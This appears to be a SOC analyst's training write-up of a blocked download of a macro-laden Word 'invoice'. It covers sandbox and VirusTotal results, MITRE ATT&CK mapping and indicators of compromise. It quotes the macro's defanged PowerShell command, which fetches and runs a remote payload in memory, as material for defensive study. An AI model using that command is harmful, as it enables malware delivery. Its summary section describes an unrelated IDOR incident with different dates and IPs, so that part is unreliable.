




# 📄 Name of the completed project :
**Incident analysis: Malicious File/Script Download Attempt**

---

## 📅 Incident Details

- **Event ID**: 76 
- **Event Time**: Mar, 14, 2021, 07:15 PM 
- **Detection Rule**: SOC137 - Malicious File/Script Download Attempt
- **Alert Level**: Security Analyst
- **File Name**: INVOICE PACKAGE LINK TO DOWNLOAD.docm
- **File Hash**: f2d0c66b801244c059f636d08a474079
- **Type**: Malware
- **Device Action**: Blocked
---

## 📁 SUMMARY

On February 28, 2022, at 10:48 P.M., our monitoring system triggered an alert and identified activity consistent with a potential IDOR attack. The requested URL was “hxxps://172.16.17.15/get_user_info/”, originating from the source IP address 134.209.118.137.

An analysis of the reputation of the suspicious IP address 134.209.118.137 using the VirusTotal tool did not reveal any active detections by security engines. At the time of analysis, the scan result showed 0 detections, which means that there were no confirmed malicious activities according to the available security providers.

However, attention should be paid to the Community Score section, which contained reports suggesting potentially malicious activity. This information cannot be ignored and requires further verification.

The AbuseIPDB tool was also used to confirm the reputation of the IP address, which classified the specified address as malicious. The analysis showed that the IP address is associated with the digitalocean[.]com domain and is located in the United States.

The POST requests sent to the URL by the threat actor were successful, as indicated by the HTTP 200 response status code. Immediate blocking of the identified IP address is recommended, and the incident should be escalated to the SOC L2 team for further investigation.

---

## 🛠️ Tools

The following tools were used in this alert:

- [VirusTotal](https://www.virustotal.com/)
- [Hybrid-Analysis](https://hybrid-analysis.com/)
- [ANY-RUN](https://any.run/)
  
## 🔐 Macros in Office files - What is the Macros VBA? - the most important informations

**A macro in Microsoft Office files** is a set of instructions written in VBA (Visual Basic for Applications) that automate repetitive tasks. It streamlines work by automatically formatting documents, processing data, and generating reports. Macros are most commonly found in files with the extensions *.docm*, *.xlsm*, and *.pptm*, which allow code to be stored and executed.

Despite numerous legitimate uses, macros can pose a security risk. When used maliciously, they can enable the download and execution of malware. An attacker can also use a macro to steal data or modify the system. For this reason, macros are often used as an attack vector in phishing campaigns.

To reduce the risk, it is recommended to run macros only from trusted sources. In addition, it is recommended to use security mechanisms such as blocking macros from the Internet and monitoring their activity.

## 📸 Information and photos from the analysis of the Incident:

The alert was generated on **March 14, 2021, at 07:15 PM** and was triggered indicating a malicious file or script download attempt. The activity originated from an internal host and was successfully blocked by the security system. The source IP address was **172.16.17.37**, assigned to the hostname **NicolasPRD**.

The file that was likely downloaded was named *INVOICE PACKAGE LINK TO DOWNLOAD.docm*. The size of this file is **16.66 KB**, and its hash is *f2d0c66b801244c059f636d08a474079*. The naming convention indicates a phishing attempt to trick the user into opening the file. Since it was a .docm file, it most likely contained malicious macros.

The security system blocked the download, preventing execution on the endpoint. No confirmed compromise has been identified. However, macro-enabled documents are often used to deliver malware, establish persistence, or enable unauthorized access. 

<p align="center">
  
  <br>
  <em>Figure 1: Incident_Details</em>
</p>

The file **INVOICE PACKAGE LINK TO DOWNLOAD.docm** was identified as malicious by antivirus engines, indicating a high probability that it poses a real threat. It is a Microsoft Word macro-enabled document with a size of 16.66 KB. The analysis revealed the presence of a macro named AutoOpen in the NewMacros.bas module, which executes automatically when the document is opened. The macro uses  **PowerShell** to run command intended to download an additional file from a specified URL. The downloaded file may then be executed, enabling arbitrary code execution on the victim’s system.

Additionally, this file has also been checked in the **Hybrid-Analysis** and **ANY-RUN** environments. Both of these tools also detected malicious activity in the tested file.

<p align="center">
  
  <br>
  <em>Figure 2: VirusTotal Screenshot</em>
</p>

The Behavior tab of the VirusTotal website, in the **MITRE ATT&CK Tactics and Techniques** section, presents a mapping of behaviors observed by analytical engines and sandboxes to tactics and techniques from the **MITRE ATT&CK** framework.

<p align="center">
  
  <br>
  <em>Figure 3: MITRE ATT&CK Tactics and Technique</em>
</p>
Based on the mappings to **MITRE ATT&CK** visible in the image, the following conclusions can be drawn:

- The analyzed file can execute code (e.g., through a command interpreter and scripts) and inject it into other processes (*Process Injection*), which can be used to escalate privileges and hide activity.

- The techniques indicated in the **Defense Evasion** area (including *masquerading*, *deobfuscation*, *sandbox/VM detection*) suggest that the sample is obfuscated and attempts to evade analysis and detection.

- Behaviors in the **Discovery** category show that the file collects information about the system, processes, and environment, which is typical for malware preparing for further actions.

- The presence of **Command & Control** techniques, including encrypted communication, indicates the possibility of connecting to an external control *server (C2)*.


When the document is opened, the AutoOpen macro is launched, which executes a **PowerShell** command. The script calls the command:

*pwsh[.]exe -Command "EX ( ... ).Invoke('hxxps[:]//filetransfer[.]io[/]data-package[/]UR2whuBw[/]download
')"*

The alias EX stands for *Invoke-Expression*, a function used to execute the passed code. **PowerShell** connects to the specified URL, downloads the remote payload, and runs it without saving the file to disk, which is known as fileless execution. Additionally, the code is obfuscated by dividing it into fragments and connecting them with “+” characters, which is a typical technique used to make detection by security systems more difficult.

<p align="center">
  
  <br>
  <em>Figure 4: VirusTotal - Shell Commands</em>
</p>

After opening a *.docm* file in a sandbox environment, you can verify its behavior and check whether it contains malicious macros. Additionally, tools such as **oletools** can be used to perform static analysis of the document, including detection of macros, suspicious functions, and code obfuscation techniques. This allows you to confirm whether the file contains obfuscated or potentially malicious code before it is executed.

<p align="center">
  
  <br>
  <em>Figure 5: Macros in Office File </em>
</p>

After detecting malware, the next step is to check endpoints and logs.

Moving to the *Endpoint Security* tab and searching for the host **NicolasPRD**, no records were documented for the period when the alert appeared.
Furthermore, when verifying network logs and *log management*, no communication with the suspicious IP address was found.

After completing the investigation and gathering all relevant evidence, the findings were analyzed, final conclusions were determined, and supporting artifacts were included to document the investigation process.

These artifacts include:
</p>
<p align="center">


                          | Value                                                               | Comment                      | Type        |
                          | ------------------------------------------------------------------  | ---------------------------- | ----------- |
                          | hxxps[:]//filetransfer[.]io[/]data-package[/]UR2whuBv[/]download    | Malicious URL Address        | URL Address |
                          | f2d0c66b801244c059f636d08a474079                                    | Malicious Hash - MD5         | MD5 Hash    |
                          | 172[.]16[.]17[.]37                                                  | Source IP Address            | IP Address  | 
</p>


The final results after the case was closed:
</p>
<p align="center">
  
  <br>
  <em>Figure 6: Results_of_my_research</em>
</p>


**The Summary of the investigation**:


## 🔥 Lessons Learned

After completing the investigation, the alert was confirmed as a True Positive. The analyzed Office document contained malicious VBA macros that were intentionally obfuscated. Their purpose was to execute commands and potentially download or run additional payloads once the user enabled macros.

We used VirusTotal and Hybrid Analysis to verify the file. These platforms helped us confirm malicious indicators, observe the file’s behavior in a sandbox environment, and compare the results with known threat intelligence. This gave us higher confidence in our final assessment and showed how important it is to use multiple sources during analysis.

**Conclusions and observations from the analysis of malware using VBA macros**:

- Checking the hash in tools such as VirusTotal allows for immediate correlation with a  database.

- The presence of macros in an Office document significantly increases the risk level and requires thorough checking of the VBA code.

- Macros are often obfuscated to hide their true purpose.

- Malicious macros can be used to download additional payloads, execute system commands, or establish network connections.

- Sandbox analysis (e.g., Hybrid Analysis) helps to see the actual behavior of the file after it is launched.

- Correlating the hash, static (VBA) and dynamic (sandbox) analyses gives a more complete picture of the threat.

- Hash verification is a quick first step, but it does not replace a full security analysis.

## 📂 Project Structure

```bash
SOC137 - Malicious File_Script Download Attempt/
│
├── 00_README/
│   └── README.md
│
├── 01_Details_about_incident/
│   └── Incident_Details.png
│
├── 02_Tools_VT_&_ANY-RUN/
│   ├── Shell_Commands.png
│   └── VirusTotal.png
│
├── 03_Macros_Office_File/
│   └── Macros_Office.png
│
├── 04_MITRE ATT&CK/
│   └── MITRE ATT&CK.png
│ 
├── 05_Results_of_Investigation/
│   ├── Artifacts.png
│   └── Results_of_my_research.png

```


